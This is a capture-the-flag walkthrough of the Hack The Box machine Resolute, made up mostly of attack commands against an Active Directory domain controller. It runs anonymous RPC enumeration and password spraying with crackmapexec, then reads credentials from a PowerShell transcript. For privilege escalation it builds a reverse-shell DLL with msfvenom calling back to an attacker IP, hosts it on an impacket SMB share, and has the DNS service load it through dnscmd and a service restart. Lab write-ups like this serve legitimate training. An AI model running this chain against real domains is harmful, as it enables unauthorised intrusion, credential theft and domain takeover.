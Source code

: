 ```yaml
---
description: https://app.hackthebox.com/machines/220
---
```


# 🐟 Resolute

<figure><img src="../../.gitbook/assets/image (999).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1000).png" alt=""><figcaption></figcaption></figure>

So we can see the domain is megabank.local, so let's add it to /etc/hosts file:

```
10.129.218.158  Resolute.megabank.local Resolute megabank.local
```

We then try enumerating SMB, we get anonymous login but no shares appears to be there

```
smbclient -L //10.129.218.158 
```

<figure><img src="../../.gitbook/assets/image (1001).png" alt=""><figcaption></figcaption></figure>

We could try using null auth or smbmap with:

```
smbmap -H 10.129.218.158
```

but nothing works

same for rpcclient:

```
rpcclient 10.129.218.158
```

But when we try null auth this times it works:

```
rpcclient -U "" -N 10.129.218.158
```

* **U ""**:
  * The `-U` option specifies the username to use for the connection. In this case, `""` (an empty string) means that no username is provided.
  * This can be useful for anonymous connections where the server does not require a username.
* **-N**:
  * The `-N` option tells `rpcclient` to use an anonymous login. This means that no password will be prompted for or provided. It is often used together with `-U ""` for anonymous access.

Then we use the enumdomusers to list some users in the domain:

<figure><img src="../../.gitbook/assets/image (1002).png" alt=""><figcaption></figcaption></figure>

We copy this output to a file and use awk to clean it:

```
cat enumdom.txt | awk -F\[ '{print $2}' | awk -F\] '{print $1}'
```

<figure><img src="../../.gitbook/assets/image (1003).png" alt=""><figcaption></figcaption></figure>

To continue enumeration, we could use cme to list out various info like password policy to look for lockout policy so we can bruteforce aggresivly:

```
cme smb --pass-pol 10.129.218.158 
```

<figure><img src="../../.gitbook/assets/image (1004).png" alt=""><figcaption></figcaption></figure>

While enumerating rpc, we can't forget to use the querydispinfo command that leads us to a clear text password:

<figure><img src="../../.gitbook/assets/image (1005).png" alt=""><figcaption><p>marko:Welcome123!</p></figcaption></figure>

So we exit rpcclient and hop on cme to test out the credentials

```
cme smb 10.129.218.158 -u marko -p 'Welcome123!'
```

But we get a login failure, so let's try spraying with the proper user list output :

```
cme smb 10.129.218.158 -u cleanedusers.txt -p 'Welcome123!'
```

<figure><img src="../../.gitbook/assets/image (1006).png" alt=""><figcaption></figcaption></figure>

and we get a hit for melanie :raised\_hands:

So we go on cme and test out the creds, it works, so we launch evil-winrm to connect via a session:

<figure><img src="../../.gitbook/assets/image (1007).png" alt=""><figcaption></figcaption></figure>

What we also need to do is enumerate SMB as an authd user ->

```
smbmap -d megabank.local -u melanie -p 'Welcome123!' -H 10.129.218.158
```

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now we enumerate the session, we don't find anything in the home dir so we ho at root and run ls -force

The command `ls -force` as written appears to be a mix of Unix/Linux and PowerShell syntax, and it doesn't directly apply to Unix/Linux systems. Instead, it resembles a PowerShell command. In PowerShell, `ls` is an alias for the `Get-ChildItem` cmdlet, and the `-Force` parameter is used to show hidden and system files.

* **ls**:
  * An alias for the `Get-ChildItem` cmdlet, which lists the contents of a directory.
  * It functions similarly to the `ls` command in Unix/Linux, but it is a part of PowerShell and can be used on Windows systems.
* **-Force**:
  * A parameter for `Get-ChildItem` that forces the command to include hidden and system files in its output.
  * Without `-Force`, `Get-ChildItem` would only list the visible files and directories.

We find the interesting file:

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We continue our rabbit hole ->

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt</p></figcaption></figure>

We look at the content of the file and we can see the creds for the ryan user:

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>ryan Serv3r4Admin4cc123!</p></figcaption></figure>

So obviously we pivot towards the ryan user using evil winrm ->

and look at the groups using `whoami /groups`

{% embed url="https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#dnsadmins" %}

<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
Members of DNSAdmins group have access to network DNS information. The default permissions are as follows: Allow: Read, Write, Create All Child objects, Delete Child objects, Special Permissions.
{% endhint %}

{% embed url="https://medium.com/techzap/dns-admin-privesc-in-active-directory-ad-windows-ecc7ed5a21a2" %}

We follow the documentation, create a malicious dll with msfvenom as follows:&#x20;

```
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.58 LPORT=4444 -f dll > privesc.dll
```

then we need to transfer the file ->

{% embed url="https://blog.ropnop.com/transferring-files-from-kali-to-windows/" %}

So we will start by creating our smbserver with impacket ->

```
smbserver.py share .
```

`smbserver.py share .` is used to start an SMB (Server Message Block) server using the `smbserver.py` script from the Impacket library. This script allows you to quickly set up an SMB server on a specified share name and directory.

* **share**:
  * This is the name of the share that you are creating. When clients connect to the SMB server, they will use this share name to access the files.
  * For example, if you specify `share`, clients will access it via `\\<server-ip>\share`.
* **.**:
  * This indicates the directory to be shared. The `.` (dot) represents the current directory from which the command is being run.
  * All files and subdirectories within the current directory will be accessible through the SMB share.

Now launch netcat with the port of your msfvenom payload

{% hint style="info" %}
Some googling around for this group led me to the [lolbas page](https://lolbas-project.github.io/lolbas/Binaries/Dnscmd/) for `dnscmd` to load a dll over a UNC path. There’s a command to set a server level plugin dll:



dnscmd.exe /config /serverlevelplugindll \\\path\to\dll
{% endhint %}

```
dnscmd.exe /config /serverlevelplugindll \\10.10.14.58\share\privesc.dll
```

* `dnscmd.exe` is a command-line tool used to manage DNS servers.
* The `/config /serverlevelplugindll` option sets the path of a DLL that the DNS server will load as a plugin.
* `\\10.10.14.58\share\privesc.dll` specifies the path to your malicious DLL hosted on the SMB server.
* When this command is executed, the DNS server is configured to load the `privesc.dll` from the SMB share.

```
sc.exe \\resolute stop dns
```

```
sc.exe \\resolute start dns
```

* `sc.exe` is a command-line tool for managing Windows services.
* `sc.exe \\resolute stop dns` stops the DNS service on the target server (named `resolute`).
* `sc.exe \\resolute start dns` starts the DNS service again.
* Restarting the DNS service forces it to load the newly configured server-level plugin DLL (`privesc.dll`).

***

* When the DNS service starts, it loads the `privesc.dll` file from the SMB share.
* If `privesc.dll` contains a reverse shell payload, it will execute with the privileges of the DNS service, which can be high, potentially including domain admin privileges.
* During this process, when `dnscmd.exe` or the DNS service accesses the SMB share to retrieve the `privesc.dll`, the system may send NTLM authentication hashes to the SMB server.
* These hashes can be captured by tools like `Responder` or directly observed in the output of `smbserver.py`.

<figure><img src="../../.gitbook/assets/image (16) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (15) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
